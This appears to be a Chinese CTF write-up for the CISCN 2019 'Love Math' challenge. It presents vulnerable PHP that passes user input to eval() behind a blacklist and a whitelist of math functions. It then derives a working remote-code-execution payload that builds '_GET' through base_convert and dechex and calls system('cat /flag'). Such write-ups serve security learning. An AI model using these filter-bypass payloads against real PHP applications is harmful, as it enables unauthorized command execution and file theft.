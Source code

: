 # 【CISCN 2019初赛】Love Math


# [CISCN 2019初赛]Love Math

## 思路
* 源码

  ```
  &lt;?php
  error_reporting(0);
  //听说你很喜欢数学，不知道你是否爱它胜过爱flag
  if(!isset($_GET[&#39;c&#39;])){
      show_source(__FILE__);
  }else{
      //例子 c=20-1
      $content = $_GET[&#39;c&#39;];
      if (strlen($content) &gt;= 80) {
          die(&#34;太长了不会算&#34;);
      }
      $blacklist = [&#39; &#39;, &#39;\t&#39;, &#39;\r&#39;, &#39;\n&#39;,&#39;\&#39;&#39;, &#39;&#34;&#39;, &#39;`&#39;, &#39;\[&#39;, &#39;\]&#39;];
      foreach ($blacklist as $blackitem) {
          if (preg_match(&#39;/&#39; . $blackitem . &#39;/m&#39;, $content)) {
              die(&#34;请不要输入奇奇怪怪的字符&#34;);
          }
      }
      //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
      $whitelist = [&#39;abs&#39;, &#39;acos&#39;, &#39;acosh&#39;, &#39;asin&#39;, &#39;asinh&#39;, &#39;atan2&#39;, &#39;atan&#39;, &#39;atanh&#39;, &#39;base_convert&#39;, &#39;bindec&#39;, &#39;ceil&#39;, &#39;cos&#39;, &#39;cosh&#39;, &#39;decbin&#39;, &#39;dechex&#39;, &#39;decoct&#39;, &#39;deg2rad&#39;, &#39;exp&#39;, &#39;expm1&#39;, &#39;floor&#39;, &#39;fmod&#39;, &#39;getrandmax&#39;, &#39;hexdec&#39;, &#39;hypot&#39;, &#39;is_finite&#39;, &#39;is_infinite&#39;, &#39;is_nan&#39;, &#39;lcg_value&#39;, &#39;log10&#39;, &#39;log1p&#39;, &#39;log&#39;, &#39;max&#39;, &#39;min&#39;, &#39;mt_getrandmax&#39;, &#39;mt_rand&#39;, &#39;mt_srand&#39;, &#39;octdec&#39;, &#39;pi&#39;, &#39;pow&#39;, &#39;rad2deg&#39;, &#39;rand&#39;, &#39;round&#39;, &#39;sin&#39;, &#39;sinh&#39;, &#39;sqrt&#39;, &#39;srand&#39;, &#39;tan&#39;, &#39;tanh&#39;];
      preg_match_all(&#39;/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/&#39;, $content, $used_funcs);  
      foreach ($used_funcs[0] as $func) {
          if (!in_array($func, $whitelist)) {
              die(&#34;请不要输入奇奇怪怪的函数&#34;);
          }
      }
      //帮你算出答案
      eval(&#39;echo &#39;.$content.&#39;;&#39;);
  }
  ```
  
  有好几个过滤
  
  * 长度大于80过滤
  
  * 黑名单过滤：关键问题是过滤了`[`、`]`
  
    ```
    blacklist = [&#39; &#39;, &#39;\t&#39;, &#39;\r&#39;, &#39;\n&#39;,&#39;\&#39;&#39;, &#39;&#34;&#39;, &#39;`&#39;, &#39;\[&#39;, &#39;\]&#39;];
    ```
  
  * 白名单过滤：主要是只能使用部分数学的函数
  
    ```
    whitelist = [&#39;abs&#39;, &#39;acos&#39;, &#39;acosh&#39;, &#39;asin&#39;, &#39;asinh&#39;, &#39;atan2&#39;, &#39;atan&#39;, &#39;atanh&#39;, &#39;base_convert&#39;, &#39;bindec&#39;, &#39;ceil&#39;, &#39;cos&#39;, &#39;cosh&#39;, &#39;decbin&#39;, &#39;dechex&#39;, &#39;decoct&#39;, &#39;deg2rad&#39;, &#39;exp&#39;, &#39;expm1&#39;, &#39;floor&#39;, &#39;fmod&#39;, &#39;getrandmax&#39;, &#39;hexdec&#39;, &#39;hypot&#39;, &#39;is_finite&#39;, &#39;is_infinite&#39;, &#39;is_nan&#39;, &#39;lcg_value&#39;, &#39;log10&#39;, &#39;log1p&#39;, &#39;log&#39;, &#39;max&#39;, &#39;min&#39;, &#39;mt_getrandmax&#39;, &#39;mt_rand&#39;, &#39;mt_srand&#39;, &#39;octdec&#39;, &#39;pi&#39;, &#39;pow&#39;, &#39;rad2deg&#39;, &#39;rand&#39;, &#39;round&#39;, &#39;sin&#39;, &#39;sinh&#39;, &#39;sqrt&#39;, &#39;srand&#39;, &#39;tan&#39;, &#39;tanh&#39;];
    ```
  
  * 过滤了ascci码形式的值
  
    ```
    preg_match_all(&#39;/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/&#39;, $content, $used_funcs);
    ```
  
* 对于黑名单绕过

  常规的`cat /flag`都不能使用了

  &gt; [!NOTE]
  &gt;
  &gt; **知识点**
  &gt;
  &gt; php中可以把函数名通过字符串的方式传递给一个变量，然后通过此变量动态调用函数

  传参为：

  ```
  ?c=($_GET[a])($_GET[b])&amp;a=system&amp;b=cat /flag
  ```

  黑名单还过滤了`[`，` ]`

  把这个替换为`{`，`}`

  ```
  ?c=($_GET{a})($_GET{b})&amp;a=system&amp;b=cat /flag
  ```

* 对于白名单绕过

  不在白名单的部分

  * `a`

  * `b`

  * `_GET`

    &gt;  因为`_GET`难绕过，下面单列来说

  `a`和`b`很好绕过：使用白名单的随便一个数学函数作为命名就行

  ```
  ?c=($_GET{cos})($_GET{asinh})&amp;cos=system&amp;asinh=cat /flag
  ```

* `_GET[]`绕过方法

  &gt; 使用数学函数

  * `hex2bin()`

    把十六进制字符串转换为ASCII字符

    `_GET` =&gt; `hex2bin(5f 47 45 54)` 

    但问题是：`hex2bin`不在白名单；ascci字符码也会被第三道过滤

  * `hex2bin`不在白名单解决

    使用`base_convert()`函数来转换

    &gt; `base_convert()`：任意进制之间转换数字

    使用方法：

    hex2bin可以看做是36进制，用base_convert来转换将在**10进制的数字转换为16进制**就可以出现hex2bin。

     `hex2bin()`  =&gt; `base_convert(37907361743,10,36)`

    里面的`5f 47 45 54`要用dechex()函数将**10进制数转换为16进制**的数

    `5f 47 45 54` =&gt; `dechex(1598506324)`

    经过上面修改变为：

    ```
    ?c=($((base_convert(37907361743,10,36))(dechex(1598506324))){cos})($(base_convert(37907361743,10,36))(dechex(1598506324))){asinh})&amp;cos=system&amp;asinh=cat /flag
    ```

* 但这个指令太长了

  综述再修改：

  ```
  base_convert(37907361743,10,36)		# “hex2bin”
  dechex(1598506324)		# “5f474554”
  $pi=hex2bin(5f474554)		# $pi=&#34;_GET&#34;
  ($$pi){pi}(($$pi){abs})		# $_GET{pi}($_GET{abs})
  $_GET{pi}($_GET{abs})		# $_GET{system}($_GET{cat /flag})
  ```


## Payload

```
/?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&amp;pi=system&amp;abs=cat /flag
```

## 总结

* RCE
* 黑名单
* 白名单

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-ciscn-2019%E5%88%9D%E8%B5%9Blove-math/  


